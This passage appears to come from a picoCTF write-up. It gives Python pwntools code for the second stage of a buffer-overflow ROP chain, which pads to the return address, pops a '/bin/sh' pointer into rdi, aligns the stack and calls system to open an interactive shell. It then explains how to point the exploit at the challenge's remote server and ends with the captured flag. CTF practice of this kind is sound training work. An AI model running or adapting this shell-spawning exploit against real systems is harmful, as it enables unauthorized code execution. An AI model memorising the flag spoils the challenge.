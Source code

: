 ```python
second_payload = [
	junk, # get back to the offset, where we know our instruction pointer will end up going, buffer overflow
	p64(pop_rdi), # supply an argument to a function that we end up calling, system 
	p64(bin_sh_address), # string to /bin/sh
	p64(ret_instruction), # so that whenever we call a sytem function, the last digit is a 0, basically for stack allignment
	p64(system_address), # passing that to system
]

# prepare our second payload
second_payload = b''.join(second_payload)
p.sendline(second_payload)


p.interactive()

```

for the exploit to work and solve the CTF
change
```python
p = process('./vuln') # start the vulnerable program process
 
# we reached EOF (End Of File) with our payload
# gdb.attach(p) # debug our ROPchain

# p = remote('mercury.picoctf.net', 37289)
``` 
to
```python
p = remote('mercury.picoctf.net', 37289)
```
picoCTF{1_<3_sm4sh_st4cking_e900800fb4613d1e}